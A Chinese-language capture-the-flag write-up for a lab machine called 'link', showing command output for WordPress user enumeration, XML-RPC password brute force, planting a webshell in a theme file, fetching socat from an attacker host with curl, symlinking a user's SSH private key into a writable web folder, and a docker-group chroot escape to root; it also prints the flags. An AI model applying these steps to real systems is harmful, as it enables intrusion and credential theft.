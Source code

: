 ```yaml
---
title: MazeSec link
date: 2025-10-30 17:03:13
permalink: /pages/link/
categories:
  - 渗透
tags:
  - wordpress
  - docker逃逸
author: 
  name: the0n3
  link: https://the0n3.top
---
```


## 信息收集

端口扫描

```bash
┌──(npc㉿kali)-[~/hackmyvm/link]
└─$ nmap -sT -p- 192.168.56.164
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问80端口，一个wordpress站点

![](/medias/link/1.png)

wpscan扫描

```bash
┌──(npc㉿kali)-[~/hackmyvm/link]
└─$ wpscan --url http://192.168.56.112/ 
[+] XML-RPC seems to be enabled: http://192.168.56.112/xmlrpc.php
[+] WordPress version 6.7 identified (Insecure, released on 2024-11-12).
[i] No plugins Found.
```

3条重要信息：

- XML-RPC enabled
- wordpress version 6.7
- No plugins Found.

![](/medias/link/2.png)


wpscan爆破一下用户，然后可以尝试利用xmlrpc接口来爆破密码

发现用户：yliken

```bash
┌──(npc㉿kali)-[~/hackmyvm/link]
└─$ wpscan --url http://192.168.56.164/ --enumerate u
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <=================================================================================================================================> (10 / 10) 100.00% Time: 00:00:01
[i] User(s) Identified:

[+] Yliken
 | Found By: Rss Generator (Passive Detection)

[+] yliken
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://192.168.56.164/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```



爆破密码出密码：ichliebedich

```bash
┌──(npc㉿kali)-[~/hackmyvm/link]
└─$ wpscan --url http://192.168.56.164/ -U yliken -P /usr/share/wordlists/rockyou.txt --password-attack xmlrpc -t 50
 
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - yliken / ichliebedich
Trying yliken / chevy1 Time: 00:01:56 <                                                                                                                               > (5000 / 14349392)  0.03%  ETA: ??:??:??
[!] Valid Combinations Found:
 | Username: yliken, Password: ichliebedich
```

## wordpress后台getshell

访问 wp-login.php，进入后台，编辑主题文件

![](/medias/link/3.png)

修改patterns/header.php，写入webshell

![](/medias/link/4.png)

![](/medias/link/5.png)

保存以后，回到文章列表，访问helloworld的那篇文章

![](/medias/link/6.png)

蚁剑连接

![](/medias/link/7.png)

## yliken用户登录

信息收集，没有suid命令，内网有8080端口，没有对外开放

```bash
(www-data:/var/www/html) $ sudo -l
sudo: unable to resolve host link: Temporary failure in name resolution
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:
    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
sudo: a password is required
(www-data:/var/www/html) $ ss -tulpn
Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port
udp     UNCONN   0        0                0.0.0.0:68            0.0.0.0:*
tcp     LISTEN   0        80             127.0.0.1:3306          0.0.0.0:*
tcp     LISTEN   0        128            127.0.0.1:8080          0.0.0.0:*
tcp     LISTEN   0        128              0.0.0.0:22            0.0.0.0:*
tcp     LISTEN   0        128                    *:80                  *:*
tcp     LISTEN   0        128                 [::]:22               [::]:*
```

查看进程，有mysql服务和yliken的一个文件浏览服务。mysql密码可以在wordpress配置文件里找到，没什么权限，没有必要

重点看看yliken进程，如果有漏洞，就可以尝试拿到yliken用户权限

```bash
(www-data:/var/www/html) $ ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
yliken       322  0.0  0.3 1231760 7700 ?        Ssl  06:08   0:00 /home/yliken/fileBrower
mysql        431  8.2  5.2 1103328 107892 ?      Ssl  06:08   1:21 /usr/sbin/mariadbd
```

下载远程socat

```bash
(www-data:/var/www/html) $ curl http://192.168.56.107/socat -o /tmp/socat
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0 100  366k  100  366k    0     0  3700k      0 --:--:-- --:--:-- --:--:-- 3700k
(www-data:/var/www/html) $ ls /tmp -lah
total 404K
drwxrwxrwt  2 root     root     4.0K Oct 30 06:29 .
drwxr-xr-x 19 root     root     4.0K Oct 28 12:17 ..
-rw-------  1 www-data www-data  27K Oct 30 06:29 phpcts27x
-rw-r--r--  1 www-data www-data 367K Oct 30 06:28 socat
(www-data:/var/www/html) $ chmod +x /tmp/socat
```

![](/medias/link/8.png)


把8080映射到8081

```bash
socat TCP4-LISTEN:8081,reuseaddr,fork TCP4:127.0.0.1:8080
```

访问，txt没什么内容，但是页面暴露了文件绝对路径`/app/yliken/yliken.txt`

![](/medias/link/9.png)

发现惊喜，yliken的web目录是www-data用户可控的，如果把yliken用户的user.txt软连接到web目录，我们就可以通过yliken用户身份直接读取web的文件

```bash
(www-data:/var/www/html) $ ls -lah /app
total 12K
drwxr-xr-x  3 root   root   4.0K Oct 28 12:26 .
drwxr-xr-x 19 root   root   4.0K Oct 28 12:17 ..
drwxr-xrwx  2 yliken yliken 4.0K Oct 29 01:19 yliken
```

尝试一下

```bash
ln -s /home/yliken/user.txt /app/yliken/user.txt
```

访问user.txt，成功拿到user.txt

![](/medias/link/10.png)

user.txt： flag{2b6d0f77e398476ede85fe65586bf33c}

现在要大胆赌一把，猜测yliken用户的私钥在.ssh下

```bash
ln -s /home/yliken/.ssh/id_rsa /app/yliken/key.txt
```

![](/medias/link/11.png)

## docker逃逸

ssh登录yliken后，没有发现suid命令，发现yliken在docker组里，可以使用docker命令

![](/medias/link/12.png)

docker 有ubuntu镜像，可以利用docker提权

```bash
yliken@link:~$ docker run --rm -v /:/host -it ubuntu:18.04 chroot /host /bin/bash --login
mesg: ttyname failed: No such device
root@ab8fce60f4b4:/# ls /root
root.txt
root@ab8fce60f4b4:/# cat /root/root.txt
flag{e6a6e8eac98579c8d826d07df3c132bc}
```

root.txt：flag{e6a6e8eac98579c8d826d07df3c132bc}

![](/medias/link/13.png)